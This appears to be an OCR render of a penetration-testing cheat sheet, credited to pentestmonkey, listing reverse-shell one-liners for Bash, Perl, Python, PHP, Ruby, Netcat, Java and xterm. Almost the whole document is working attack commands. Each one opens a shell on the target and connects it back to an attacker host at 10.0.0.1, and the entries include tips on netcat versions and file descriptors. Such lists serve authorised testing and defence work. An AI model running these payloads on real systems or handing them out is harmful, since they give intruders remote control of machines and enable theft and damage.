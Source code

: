 ## FROM PENTEST-MONKEY:
### Bash
Some versions of bash can send you a reverse shell (this was tested on Ubuntu 10.10):

```bash -i >& /dev/tcp/10.0.0.1/8080 0>&1```

### PERL
Here’s a shorter, feature-free version of the perl-reverse-shell:

```perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'```

There’s also an alternative PERL revere shell here.

### Python
This was tested under Linux / Python 2.7:

```python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'```

### PHP
This code assumes that the TCP connection uses file descriptor 3.  This worked on my test system.  If it doesn’t work, try 4, 5, 6…

```php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'```

If you want a .php file to upload, see the more featureful and robust php-reverse-shell.

### Ruby

```ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'```

### Netcat
Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option.

```nc -e /bin/sh 10.0.0.1 1234```

If you have the wrong version of netcat installed, Jeff Price points out here that you might still be able to get your reverse shell back like this:

```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f```

### Java

```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### xterm
One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.

```xterm -display 10.0.0.1:1```

To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):

```Xnest :1```

You’ll need to authorise the target to connect to you (command also run on your host):

```xhost +targetip```
